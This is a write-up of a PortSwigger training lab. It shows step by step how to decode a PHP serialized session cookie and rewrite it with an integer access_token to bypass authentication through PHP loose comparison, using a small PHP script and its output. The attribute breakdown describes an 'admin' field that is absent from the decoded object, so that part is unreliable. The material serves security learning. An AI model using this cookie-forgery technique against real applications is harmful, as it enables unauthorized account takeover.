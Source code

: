 # Modifying serialized data types

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types), you'll learn: Modifying serialized data types! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the `administrator` account. Then, delete Carlos.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110054047.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110054121.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110054104.png)

When we successfully logged in, it'll set a new session cookie.

**URL decoded:**
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJpYzRnanAybGN4bnd2dmlrYjhhOWUwMm0wYjd4NXhiayI7fQ==
```

As you can see, the session cookie's last 2 characters are `=`, which is a padding in base64.

**Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo -n 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJpYzRnanAybGN4bnd2dmlrYjhhOWUwMm0wYjd4NXhiayI7fQ==' | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ic4gjp2lcxnwvvikb8a9e02m0b7x5xbk";}
```

It's a PHP deserialized object!

Let's break it down:

- `O:4:"User"` means there is an `User` object, and it's length is 4 characters long
- `2` means there are 2 attributes:
    - `s:8:"username"` means the **first attribute** is called `username`, and it's length is 8 characters long
        - `s:6:"wiener"` means `username` attribute value is `wiener`, and it's length is 6 characters long
    - `s:5:"admin"` means the **second attribute** is called `admin`, and it's length is 5 characters long
        - `b:0` means the `admin` attribute value is boolean value `0` (`false`)
    - `s:12:"access_token"` means the **third attribute** is called `access_token`, and it's length is 12 characters long
        - `s:32:"ic4gjp2lcxnwvvikb8a9e02m0b7x5xbk"` means the `access_token` attribute value is `ic4gjp2lcxnwvvikb8a9e02m0b7x5xbk`, and it's length is 32 characters long

Armed with above information, we can take a closer look at the `access_token` attribute.

**The 32 characters long of string looks like a hash. We can use `hash-identifier` to identify the hash algorithm:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# hash-identifier 'ic4gjp2lcxnwvvikb8a9e02m0b7x5xbk'
[...]
Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
[...]
```

It's a MD5 hash!

So, the `access_token` is checking we're authenticated or not.

**Since we have control to the deserialized object, we can modify it.**

If the web application is using loose comparison (`==`), we can modify the deserialized object to bypass the authentication!

**Let's assume the web application is checking the `access_token` like this:**
```php
$User = unserialize($_COOKIE);

if ($User['access_token'] == $password){
    // Login successful
};
```

We can just change the data type of `access_token` attribute to an integer!

**To do so, we can write a PHP code:**
```php
<?php
    $serializedObject = 'O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}';

    $deserializedObject = unserialize($serializedObject);
    echo "[+] Deserialized: \n";
    var_dump($deserializedObject);

    echo "[+] Base64 encoded: \n" . base64_encode($serializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php
[+] Deserialized: 
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(13) "administrator"
  ["access_token"]=>
  int(0)
}
[+] Base64 encoded: 
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
```

Notice that the `access_token` attribute's data type is set to integer with value 0, and the `username` attribute's value changed to `administrator`.

When we changed the session cookie, we'll be logged in as user `administrator`, as the `access_token` is equal to `true`.

This happens because PHP will attempt to convert the string to an integer, meaning that `5 == "5"` evaluates to `true`. So our integer `0` will always be true, as there is no number in `the access_token`.

**Let's modify our session cookie to our newly modified serialized object in base64 encoding:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110061905.png)

**Then refresh the page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110061918.png)

Nice! We see an admin panel. Let's delete user `carlos`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110061944.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-2/images/Pasted%20image%2020230110061950.png)

# What we've learned:

1. Modifying serialized data types